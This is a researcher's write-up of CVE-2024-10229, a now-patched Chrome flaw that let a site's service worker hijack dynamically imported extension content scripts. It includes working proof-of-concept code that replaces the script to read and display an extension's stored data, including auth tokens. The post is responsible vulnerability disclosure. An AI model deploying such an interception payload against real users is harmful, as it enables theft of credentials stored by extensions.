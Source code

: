 ```yaml
---
sidebar_position: 1
---
```


# CVE-2024-10229

:::tip Note

This is a bonus article describing a CVE in Chrome that allowed me to bypass Context Isolation.
:::

# Overview
At the end of 2024, I found a vulnerability in Chrome that allowed an attacker's site to execute scripts within the Content Script of vulnerable extensions.

If you have read the content of this site, you should remember that usually, a `content script` is injected through the `manifest`. However, I discovered that many large extensions (for example, [1Password](https://chromewebstore.google.com/detail/1password/aeblfdkhhhdcdjpifhhbdiojplfjncoa)) use the following logic:
```javascript
(function () {
    'use strict';
  
    const injectTime = performance.now();
    (async () => {
      const { onExecute } = await import(
        /* @vite-ignore */
        chrome.runtime.getURL("assets/example.js")
      );
      onExecute?.({ perf: { injectTime, loadTime: performance.now() - injectTime } });
    })().catch(console.error);
  
  })();
```
That is, they dynamically request scripts from the `content script`. Studying the browser's behavior, I realized that the developers made a mistake. Usually, all traffic from the `content script` originating from the Isolated World, as you can guess, is isolated. For example, an application cannot intercept a fetch request originating from the `content script`. However, this logic was not implemented for `import`...

## Let's Exploit
After we understood that `import` is not isolated, a simple plan emerges:
- Register a `service worker` on your page.
- Intercept the script and replace its content with your own.

In practice, this looked like this:
```javascript
self.addEventListener("fetch", (event) => {
    console.log(`Handling fetch event for ${event.request.url}!`);
    if(event.request.url.indexOf("chrome-extension") === -1){
        event.respondWith(fetch(event.request.url));
        return;
    }
    if(event.request.url.indexOf("chrome-extension") != -1){
        var a = new Response(`(async function foo() {
            window.slonser=JSON.stringify(await chrome.storage.local.get());

            document.body.innerHTML='I was stealing your storage:'+window.slonser; 
          })();`, {
          headers: {'Content-Type': 'text/javascript', 'Access-Control-Allow-Origin':"*"}
        })
        event.respondWith(
            a
         )
        return;
    }
    return;
});
```
Accordingly, by running such a worker on your site, you could steal user data (I discovered quite a few extensions that stored auth tokens in storage, LOL) and sometimes even achieve UXSS (but you probably guessed this if you read this site).

## Let's report
I [reported](https://issues.chromium.org/issues/371011220) this issue to the Chrome security team. Within a week, it was resolved, and I received $10,000.